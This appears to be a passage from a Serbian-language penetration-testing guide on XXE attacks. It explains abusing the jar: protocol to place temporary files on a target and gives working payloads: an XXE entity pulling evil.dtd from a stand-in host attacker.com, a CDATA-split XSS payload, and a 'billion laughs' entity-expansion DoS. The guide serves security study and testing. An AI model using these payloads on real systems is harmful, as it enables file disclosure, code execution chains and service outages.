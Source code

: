 ```
jar:file:///var/myarchive.zip!/file.txt
jar:https://download.host.com/myarchive.zip!/file.txt
```

{% hint style="danger" %}
Da biste mogli da pristupite datotekama unutar PKZIP datoteka je **izuzetno korisno zloupotrebiti XXE putem sistema DTD datoteka.** Proverite [ovaj odeljak da biste naučili kako da zloupotrebite sistem DTD datoteke](xxe-xee-xml-external-entity.md#error-based-system-dtd).
{% endhint %}

Proces pristupa datoteci unutar PKZIP arhive putem jar protokola uključuje nekoliko koraka:

1. Napravljen je HTTP zahtev za preuzimanje zip arhive sa određene lokacije, kao što je `https://download.website.com/archive.zip`.
2. HTTP odgovor koji sadrži arhivu privremeno se čuva na sistemu, obično na lokaciji poput `/tmp/...`.
3. Arhiva se zatim raspakuje kako bi se pristupilo njenom sadržaju.
4. Konkretna datoteka unutar arhive, `file.zip`, se čita.
5. Nakon operacije, sve privremene datoteke kreirane tokom ovog procesa se brišu.

Interesantna tehnika za prekid ovog procesa u drugom koraku uključuje održavanje otvorene server konekcije neograničeno dok se servira arhivska datoteka. Alati dostupni na [ovom repozitorijumu](https://github.com/GoSecure/xxe-workshop/tree/master/24\_write\_xxe/solution) mogu se koristiti u tu svrhu, uključujući Python server (`slow_http_server.py`) i Java server (`slowserver.jar`).

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "jar:http://attacker.com:8080/evil.zip!/evil.dtd">]>
<foo>&xxe;</foo>
```

{% hint style="danger" %}
Pisanje datoteka u privremeni direktorijum može pomoći u **povećanju druge ranjivosti koja uključuje prolazak putanje** (kao što su lokalno uključivanje datoteka, ubacivanje predložaka, XSLT RCE, deserijalizacija, itd).
{% endhint %}

### XSS

```xml
<![CDATA[<]]>script<![CDATA[>]]>alert(1)<![CDATA[<]]>/script<![CDATA[>]]>
```

### DoS

#### Napad Milijardu Smeha

```xml
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```
